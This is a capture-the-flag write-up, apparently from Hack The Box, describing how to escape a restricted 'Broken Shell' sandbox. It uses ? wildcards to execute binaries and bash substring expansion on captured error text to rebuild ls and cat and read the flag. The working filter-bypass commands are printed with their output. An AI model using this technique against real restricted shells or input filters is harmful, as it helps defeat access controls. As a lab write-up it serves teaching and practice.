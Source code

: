 # Broken Shell
### Challenge Description
We've built a secure sandbox environment that only allows specific symbols and numbers. It's designed to be inescapable—security at its best!


### Approach to solve the challenge
For interacting with this challenge we are given a restricted shell in which we are only allowed to enter few special characters and number. When we connect to the server using ncat we get the following response.

```bash
TERM environment variable not set.

ΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓóÇΓúÇΓúÇΓáÇΓáÇΓúÇΓúäΓúÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇ
SNIP
ΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓóÇΓúÇΓíçΓáÇΓáÇΓó╕ΓáÇΓíçΓáÇΓáÇΓáçΓáÇΓíçΓáÇΓáÇΓíçΓó╕ΓáÇΓáÇΓóáΓáïΓí¥ΓáëΓáôΓóªΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇΓáÇ


[*] Allowed characters: ^[0-9${}/?"[:space:]:&>_=()]+$
```
When we enter things which are not present in the given regex we get the following response.
```bash
Broken@Shell$ ls

[-] Error: Command contains disallowed characters.
```
From here we have to understand what can be done for running commands in this machine, we have to understand what is the working of the the special characters in linux.
```
*, ?, []: Used for wildcard matching in file name expansion. 
$: Used to reference variables or command output. 
|: Used to pipe the output of one command to another. 
>, <: Used for input/output redirection. 
&: Used to run a command in the background. 
#: Used to denote a comment. 
", ': Used for quoting to prevent special characters from being interpreted by the shell. 
`\`: Used to escape special characters
```

From the following list we can see that we can use the "?" as a wild card, so from here we tried to see what is the response we can get when we enter this wild card number of times.\
We are going to try "?" in conjunction with other characters "/", to see if we can traverse the directory and execute some binaries that exist.
Following images are the result of the random attempts in understanding the working.

```bash
Broken@Shell$ /???
/home/restricted_user/broken_shell.sh: line 41: /bin: Is a directory
Broken@Shell$ /????
/home/restricted_user/broken_shell.sh: line 41: /boot: Is a directory
Broken@Shell$ /?????
/home/restricted_user/broken_shell.sh: line 41: /lib32: Is a directory
Broken@Shell$ /???/??
/bin/cp: cannot create regular file '/sys/fs/dd': Read-only file system
SNIP
/bin/cp: -r not specified; omitting directory '/dev/fd'
Broken@Shell$ /???/???
E: Invalid operation /bin/awk
Broken@Shell$ /???/????
/bin/arch: extra operand '/bin/bash'
Try '/bin/arch --help' for more information.
Broken@Shell$ /???/????64
f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAMC4AAAAAAABAAAAAAAAAANhiAAAAAAAAAAAAAEAAOAAN
SNIP
```

With this approach though I was stuck at this part only, as the wildcard what it's doing is executing the first binary whose words can be represented using that same number of wilcards, meaining if we use `/???/??` it will execute cp not ls.

This when I got some hint of **Bash Subtring Expansion** a really nice [read](https://jrb.nz/posts/bash-tricks/) for the same.\
**Definition**: Bash provides substring expansion as a powerful form of parameter expansion, allowing the extraction of a portion of a string variable's value.
**Syntax**: `${parameter:offset:length}`\
The whole idea is we will take the error from a command and store it as a variable, and then from that variable we are going to convert our commands.\

When we type `_1` it gives us the following error `/home/restricted_user/broken_shell.sh: line 41: _1: command not found`. From this we can see that we have the characters for making commands like ls and cat.\
Storing the result under a variable. `_1=$( _1 2>&1 )`.\
Constructing ls command from the same.
```bash
Broken@Shell$ _1=$( _1 2>&1 )
Broken@Shell$ ${_1:32:1}${_1:8:1}
broken_shell.sh  this_is_the_flag_gg
```
Constructing cat command to read the flag.
```bash
Broken@Shell$ _1=$( _1 2>&1 )
Broken@Shell$ _2=$( ${_1:32:1}${_1:8:1} 2>&1)
Broken@Shell$ ${_1:12:1}${_1:56:1}${_1:62:1} ${_2:16:19}
'This file contains the flag. The problem is that it is not on the first line so you have to read the whole file to get it :) '
'
HTB{flag}
```

Kudos to @Wathix for the tip.

### Completed
